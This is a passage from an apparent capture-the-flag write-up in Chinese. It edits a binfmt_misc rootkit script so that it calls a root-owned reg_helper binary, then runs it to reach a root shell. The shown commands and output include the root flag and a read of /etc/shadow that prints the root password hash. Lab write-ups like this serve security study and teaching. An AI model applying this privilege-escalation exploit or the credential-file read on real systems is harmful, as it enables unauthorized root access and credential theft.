 还要注释掉调用我们刚刚注释掉的函数的那一行:

```
[[ -n "$1" ]] && usage

#not_writeable && die "Error: $mountpoint/register is not writeable"

target="$(pick_suid "$searchsuid")"
test -e "$target" || die "Error: Unable to find a suid binary in $searchsuid"
```

现在，更改最后一部分，使其调用 reg helper 二进制文件，而不是尝试写入寄存器文件:

```
chmod a+x "$fmtinterpr"

binfmt_line="_${fmtname}_M__${binfmt_magic}__${fmtinterpr}_OC"
echo "$binfmt_line" | /home/dev/emuemu/reg_helper

exec "$target"
```

现在，当我们运行它时，我们发现它仍然不太正确:

```
dev@retired:~$ ./binfmt_rootkit_pencer
./binfmt_rootkit_pencer: line 101: /home/dev/emuemu/reg_helper: Permission denied
umount: bad usage
Try 'umount --help' for more information.
```

当然，reg_helper 文件是由 dev 拥有的，快速查看一下就会发现它的另一个版本隐藏在其他地方:

```
dev@retired:~$ find / -name reg_helper 2>0
/usr/lib/emuemu/reg_helper
/home/dev/emuemu/reg_helper

dev@retired:~$ ls -lsa /usr/lib/emuemu/reg_helper
20 -rwxr-x--- 1 root dev 16864 Oct 13  2021 /usr/lib/emuemu/reg_helper
```

这样更好，现在只需更改我们的漏洞脚本中的代码行，改为指向该代码行:

```
echo "$binfmt_line" | /usr/lib/emuemu/reg_helper
```

最后，我们可以运行漏洞并获得一个根外壳:

```
dev@retired:~$ ./binfmt_rootkit_pencer 
uid=0(root) euid=0(root)

# cat /root/root.txt
e625876b20e8072dc89a6f64e6083a00

# cat /etc/shadow | grep root
root:$y$j9T$WTPWClbhbDs7l.UxQ36u80$ARJoOe6zhfOEca5WFBXjo4fGaxCg1Iof6qTbrfn1CzA:19062:0:99999:7:::
```
